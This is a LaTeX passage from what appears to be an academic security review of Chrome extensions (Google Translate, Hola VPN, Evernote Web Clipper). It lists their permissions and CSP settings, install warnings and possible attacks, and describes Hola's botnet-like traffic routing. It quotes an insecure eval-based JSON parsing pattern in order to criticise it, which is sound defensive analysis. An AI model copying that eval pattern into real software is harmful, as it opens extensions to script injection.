			content script \url{<all_urls>} & contextMenus & inline scripts from \url{https://translate.googleapis.com} \\
			& storage & \\ \hline
		\end{tabular}
		\caption{Google Translate - Extension's content and permissions}
	\end{table}
	
	\begin{listing}
		\begin{itemize}
			\item  Read and change all your data on the websites you visit
		\end{itemize}
		\caption{Google Translate - Warnings shown on installation}
	\end{listing}
	
	\begin{listing}
		\begin{itemize}
			\item Steal user data from every web page
			\item Store an persistent identifier
			\item Execute any remote loaded script
		\end{itemize}
		\caption{Google Translate - Possible attacks}
	\end{listing}
	
	The extension uses the combination of a non-persistent background page and the \texttt{activeTab} permission to inject a content script if the user clicks the extension's context menu entry. However, the extension still injects the same content script in every web page making the activeTab functionality useless. The content script and the JavaScript for the pop-up are compressed. Therefore, we could not provide accurate statements about the code's capabilities. We found the function \texttt{eval} used in a way to parse a JSON string to a JavaScript object: \texttt{eval("("+a+")")}. The compressed code restricted us to further investigate where the string parameter of the eval function originates, but we assume it is most likely loaded from a remote host. \\
	
	\textbf{Proposals} To improve the security of the extension itself and its users we propose to remove the unnecessary automatic injection of the content script. The use of the activeTab permission increases the security for the user, because the extension is only active when the user invokes it. Furthermore, we propose to remove the eval function because it is a common source of Cross-Site-Scripting attacks. The parameter given to eval may either be a simple JSON object or a whole JavaScript as a string. Due to the compressed state of the code, we were not able to figure out which case applies. If only JSON objects are used, we propose the use of \texttt{JSON.parse()} as an alternative without the danger of possible Cross-Site-Scripting attacks. If the other case applies, the developers should consider if it is necessary for the extension's purpose to load remote scripts. If the loaded scripts are static, they should be placed inside the extension's installation bundle. \\
	
\subsection{Unlimited Free VPN - Hola}
	Hola provides a Virtual Private Network (VPN) as a free of charge extension. It routes the user's traffic through different countries to mask his true location. This allows to bypass regional restrictions on websites. A typical VPN network secures the web requests of its user's by routing the traffic to a few endpoints, masking the web request's origin. But Hola uses the devices of its unpaid customers to route traffic. It turns the user's computer into a VPN server and simultaneously to a VPN endpoint which means that the traffic of other users may exit through his Internet connection and take on his IP address. A Hola user's IP is therefore regularly exposed to the open Internet by traffic from other user's. The user himself has no possibility to control what content is loaded with his IP address as origin. The company makes money by providing the network to paying customers. Those are able to route their own traffic over the network to targeted endpoints. \\
	
	The paid functionality of Hola has strong similarities with a bot net which is used for denial of service or spmaming attacks. Actually, Hola recently received negative publicity as the owner of the web platform \textit{8chan} claimed that an attacker used the Hola network to perform a DDoS attack against his platform \cite{8chanHola}. Thereupon, researchers from the cyber security company \textit{Vectra}\footnote{Vectra Homepage: \url{http://www.vectranetworks.com/}} analyzed Hola's application and network. They discovered that Hola has - in addition to the public botnet-like functionality of routing huge amounts of targeted traffic - several features which may be used to perform further cyber attacks, such as download and execute any file while bypassing anti virus checking \cite{vectraHola}. \\ 
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|l|} \hline
			\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
			persistent background page & cookies & unsafe eval\\
			content script  \url{<all_urls>} & storage & inline scripts from 15 different URLs \\
			content script \url{*://*.hola.org/*} & tabs & \\ 
			& webNavigation & \\ 
			& webRequest & \\ 
			& webRequestBlocking & \\ 
			& \url{<all_urls>} & \\ \hline
		\end{tabular}
		\caption{Unlimited Free VPN - Hola - Extension's content and permissions}
	\end{table}
	
	\begin{listing}
		\begin{itemize}
			\item  Read and change all your data on the websites you visit
		\end{itemize}
		\caption{Unlimited Free VPN - Hola - Warnings shown on installation}
	\end{listing}
	
	Has to be active all the time => persistent background page. Needs to intercept web requests => webRequest API. 
	To many script sources.
	
\subsection{Evernote Web Clipper}
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|l|} \hline
			\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
			persistent background page & activeTab & inline scripts from  \\
			32 content scripts  \url{*://*/*} & contextMenus & \hspace{1em} \url{https://ssl.google-analytics.com} \\
			2 content scripts \url{*://*.salesforce.com/*} & cookies & \\ 
			content script \url{*://*.wsj.com/*} & notifications & \\ 
			& tabs & \\ 
			& unlimitedStorage & \\ 
			& \url{<all_urls>} & \\ 
			& \url{chrome://favicon/*} & \\ 
			& \url{http://*/*} & \\ 
			& \url{https://*/*} & \\ \hline
		\end{tabular}
		\caption{Evernote Web Clipper - Extension's content and permissions}
	\end{table}
	
	\begin{listing}
		\begin{itemize}
			\item  Read and change all your data on the websites you visit
		\end{itemize}
		\caption{Evernote Web Clipper - Warnings shown on installation}
	\end{listing}
	
	\bibliographystyle{abbrv}
	\bibliography{references}
	
\end{document}